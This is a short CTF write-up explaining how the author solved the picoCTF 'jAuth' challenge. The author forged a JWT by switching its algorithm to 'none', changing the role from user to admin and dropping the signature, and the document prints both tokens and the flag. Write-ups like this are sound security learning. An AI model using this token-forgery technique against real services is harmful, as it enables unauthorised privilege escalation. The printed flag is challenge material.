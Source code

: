 # CTF based on JWT auth bypass

## 1. picoCTF: jAuth

The challenge first hints for using insecure software components. I searched for vulnrability in jAuth ended up not getting anything. At the end, I solved it as follows.
caught the jwt i got from the test account. 

JWT was taken to https://token.dev and the algorithm type was changed to none and the role was changed to admin in the payload part. This way the verifier end will not check against any algorithm. The signaure part was removed by lefting the end dot(.) intact. 
Made request to /private endpoint with the token=<below_token> and got the flag
```
# jwt given by server
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoxNzIwMzE2MTMzNjczLCJhZ2VudCI6Ik1vemlsbGEvNS4wIChXaW5kb3dzIE5UIDEwLjA7IFdpbjY0OyB4NjQpIEFwcGxlV2ViS2l0LzUzNy4zNiAoS0hUTUwsIGxpa2UgR2Vja28pIENocm9tZS8xMjAuMC42MDk5LjcxIFNhZmFyaS81MzcuMzYiLCJyb2xlIjoidXNlciIsImlhdCI6MTcyMDMxNjEzNH0.v6X6u_cx56szaBiqImfy2mBoxoNtjbdzz19wNLbPEcY
# changed jwt
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJhdXRoIjoxNzIwMzE2MTMzNjczLCJhZ2VudCI6Ik1vemlsbGEvNS4wIChXaW5kb3dzIE5UIDEwLjA7IFdpbjY0OyB4NjQpIEFwcGxlV2ViS2l0LzUzNy4zNiAoS0hUTUwsIGxpa2UgR2Vja28pIENocm9tZS8xMjAuMC42MDk5LjcxIFNhZmFyaS81MzcuMzYiLCJyb2xlIjoiYWRtaW4iLCJpYXQiOjE3MjAzMTYxMzR9.
```
**Flag:** picoCTF{succ3ss_@u7h3nt1c@710n_72bf8bd5}
